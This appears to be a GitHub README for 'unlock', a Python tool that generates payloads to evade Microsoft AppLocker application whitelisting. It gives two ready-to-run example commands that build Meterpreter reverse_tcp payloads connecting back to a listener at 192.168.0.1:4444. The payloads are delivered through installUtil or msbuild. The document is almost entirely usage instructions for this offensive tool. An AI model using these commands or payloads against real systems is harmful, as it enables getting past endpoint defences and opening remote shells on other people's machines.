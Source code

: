 # unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

Examples:
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild
